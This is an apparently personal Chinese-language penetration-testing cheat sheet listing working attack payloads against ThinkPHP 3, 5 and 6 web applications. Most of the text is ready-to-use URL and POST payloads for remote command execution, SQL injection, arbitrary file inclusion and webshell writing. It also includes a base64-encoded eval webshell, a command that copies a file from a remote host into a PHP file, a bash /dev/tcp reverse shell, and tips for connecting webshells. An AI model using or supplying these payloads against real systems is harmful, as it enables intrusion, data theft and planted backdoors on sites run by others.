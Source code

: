 # Thinkphp——RCE

---

总结：3和5都有

```
https://www.cnblogs.com/0xdd/p/11102426.html

https://mp.weixin.qq.com/s?src=11&timestamp=1610677492&ver=2829&signature=qSAkzeeuM1ddHSQ-jdpYZlK*ZPNtriMl6TVSNeSL12Q-9vRtMoL954DUZOice6iV6-L3GJlY3bAtQAkcOciabH*oP6M-7c4*fdFLnUNt94w6OQi0EGTTNDhf1OGG*RfG&new=1

https://www.cnblogs.com/Mikasa-Ackerman/p/ThinkPhp-zhiRce-fen-xi.html

https://github.com/SkyBlueEternal/thinkphp-RCE-POC-Collection
```

---

## Thinkphp3

Tp3一般是底层出现漏洞，二次开发调用有漏洞的方法导致漏洞发生

thinkphp3.1.3 二次开发 sql回传注入缓存 

- 教程：https://www.zhihuifly.com/t/topic/309

- /ThinkPHP/Library/Think/Model.class.php中find函数（本来就有漏洞）被调用，未经过处理直接调用产生漏洞

```
比如在/Application/Home/Controller/IndexController.class.php写入了
public function test()
    {
       $id = i('id');
       $res = M('user')->find($id);
       //$res = M('user')->delete($id);
       //$res = M('user')->select($id);
    }
```

- payload

	```
	/index.php/home/index/test?id[field]=2,3,4,'%0aphpinfo();//'&id[cache][key]=1
	```

- 结果：产生c4ca4238a0b923820dcc509a6f75849b.php

  ```
  id[cache][key]=1 中的值 的MD5 -》c4ca4238a0b923820dcc509a6f75849b
  /Application/Runtime/Temp/c4ca4238a0b923820dcc509a6f75849b.php
  ```



Thinkphp3.2.3 update注入漏洞


```
/index.php/home/user?id[]=bind%27&money[]=1123&user=liao&id[0]=bind&id[1]=0%20and%20(updatexml(1,concat(0x7e,(select%20user()),0x7e),1))
```

信息泄露：

```
/index.php/home/res/re
```

后台getshell

```
后台标题：',@eval($_POST['a']),'
/application/common/conf/site.php
```

漏洞扫描+日志扫描：

```
https://github.com/sukabuliet/ThinkphpRCE
```



----

## Thinkphp5

index模块要存在，如果不存在就看哪个模块存在进行替换（如：home、admin  {s=home、s=admin}）

入口文件index.php可能在其他目录

均通过入口文件进行寻找模块：index.php?s= 

总结：

```
https://www.cnblogs.com/Mikasa-Ackerman/p/ThinkPhp-zhiRce-fen-xi.html
```

Thinkphp 5.0.7

```
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

Thinkphp 5.0.x

```
get:（开兼容模式）
/?s=index/think\config/get&name=database.username // 获取配置信息
/?s=index/\think\Lang/load&file=../../test.jpg    // 包含任意文件
/?s=index/\think\Config/load&file=../../t.php     // 包含任意.php文件
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][]=phpinfo()
---
post:未开强制路由，或利用变量覆盖达到命令执行
/?s=captcha
执行php函数：_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
包含文件：   _method=__construct&method=get&filter[]=think\__include_file&server[]=-1&get[]=根目录
            _method=__construct&filter[]=strrev&filter[]=think\__include_file&method=get&server[]=1&get[]=根目录倒序文字（txt.1）
           _method=__construct&filter[]=strrev&filter[]=think\__include_file&method=get&server[]=1&get[]=
           txt.1=ecruoser/edocne-46esab.trevnoc=daer/retlif//:php    #包含看文件内容，base64编码预防编码错误
执行命令：   _method=__construct&filter[]=system&method=GET&get[]=whoami
-
/?s=captcha&test=phpinfo()  
 _method=__construct&filter[]=assert&method=get&server[REQUEST_METHOD]=-1

/?s=captcha&r=ZXZhbCgkX1BPU1RbJ2NtZCddKTs=   ->一句话cmd
/?s=captcha&r=cGhwaW5mbygpOw==               ->phpinfo
  _method=__construct&filter[]=base64_decode&filter[]=think\__include_file&method=get&server[]=1&get[]=cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZGVjb2RlL3Jlc291cmNlPS90bXAvc2Vzc19oYWhhaGF0ZXN0
```

Thinkphp 5.1.x

```
/?s=index/\think\Request/input&filter[]=system&data=pwd
/?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>
/?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
/?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id

post:未开强制路由，或利用变量覆盖达到命令执行
/?s=captcha
执行php函数：_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo
包含文件：   _method=__construct&filter[]=highlight_file&method=GET&get[]=/etc/passwd
执行命令：   s=whoami&_method=__construct&method=&filter[]=exec
```

Thinkphp常见日志路径：

```
3: ['/Runtime/Logs/', '/App/Runtime/Logs/', '/Application/Runtime/Logs/Admin/', '/Application/Runtime/Logs/Home/', '/Application/Runtime/Logs/'],
5: '/runtime/log/',

/application/runtime/logs/home/21_02_01.log
/application/runtime/logs/admin/21_02_01.log
/runtime/log/21_02_01.log
/runtime/log/202102/09.log
```

常用payload

```
cmd:PD9waHAgQGV2YWwoJF9QT1NUWydjbWQnXSk7Pz4=
写文件php代码：assert函数
	file_put_contents(写入文件路径，文件内容)
	file_put_contents('xx.php',base64_decode('一句话的base64'))
	file_put_contents(base64_decode('文件名的base64'),base64_decode('一句话的base64'))
	copy(复制路径,粘贴路径)
	copy('http://xxx.com/ss.txt','ss.php')
	解码执行以上语句的编码
		base64_decode('xxxx')
写文件执行命令：system函数
	echo ^一句话马^ >> xx.php

反弹shell:
	服务端：nc -lvp 服务端端口号
	反弹端: bash -i > /dev/tcp/服务端IP/服务端端口号
```

问题

```
1.如果phpinfo能执行，但是下面的不能执行，可能是没有权限写入
可以直接phpinfo替换成eval()一句话用蚁剑连接
2.没有权限写入时，可以试试蚁剑修改目录权限，再传，要传到能访问的目录中
```

注入：

```
影响环境：
5.0.13<=ThinkPHP<=5.0.15 、 5.1.0<=ThinkPHP<=5.1.5
/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1

```

---

## Thinkphp6 rce

### 反序列化

- 背景
  ```
  php环境7以上
  url路由：/控制器/操作/参数
  ```
- 参考
  ```
  https://www.cnblogs.com/-chenxs/p/12020777.html
  https://xz.aliyun.com/t/9405#toc-3   # 含poc
  ```
- 漏洞位置
  ```
  假设控制器中有
  unserialize($_GET['c'])
  ```
- 利用
  ```
  修改poc的phpinfo();使用php将poc跑出payload
  /pulibc/?c= base64编码的序列化payload
  ```